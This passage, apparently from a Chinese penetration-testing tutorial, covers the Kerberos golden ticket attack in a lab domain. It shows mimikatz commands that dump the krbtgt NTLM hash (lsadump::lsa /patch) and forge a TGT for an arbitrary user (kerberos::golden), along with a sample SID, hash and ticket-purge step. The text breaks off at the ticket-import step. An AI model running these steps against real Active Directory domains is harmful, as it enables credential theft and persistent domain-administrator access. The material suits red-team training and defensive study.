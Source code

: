 ![截图](1e3fe7a023c36689cf81ca8f6467a1c1.png)

## 0x03 基于服务TGT-黄金票据

⻩⾦票据⽣成攻击，是⽣成有效的`TGT Kerberos票据`，并且不受`TGT⽣命周期`的影响（TGT默认10⼩时，最多续订7天），这⾥可以为任意⽤户⽣成⻩⾦票据，然后为`域管理员⽣成TGT`，这样普通⽤户就可以变成域管理员。

> 利用条件与过程：
>
> 1、已经拿下域管理员，获取到krbtgt hash；
> 2、利用krbtgt的hash制作黄金票据工具，进行攻击
>
> 最主要的是拿到`krbtgt hash`

#### 利用

1、获取该域的域名：`god.org`；

2、获取域内的`SID`值：`S-1-5-21-1218902331-2157346161-1782232778`

```cmd
whoami /user
```

最后的四位我们不需要！

3、获取域的`KRBTGT`账户`NTLM-HASH`：`b097d7ed97495408e1537f706c357fc5` ==> (需要管理员权限）

mimikatz：

```shell
privilege::debug
lsadump::lsa /patch
```

![截图](592d472df90cc1a35f83d47e76e399d2.png)

4、伪造用户名：webadmin（任意用户名），生成票据：（在webserver上）

mimikatz：

```shell
kerberos::golden /user:webadmin /domain:god.org /sid:S-1-5-21-1218902331-2157346161-1782232778 /krbtgt:b097d7ed97495408e1537f706c357fc5 /ticket:g
```

5、导入内存：

在导入之前，为了演示效果，我们先删除内存票据：

```cmd
klist purge
```

![截图](f304913f076c64ab5ab7455e93077d66.png)

开始导入：

mimikatz:

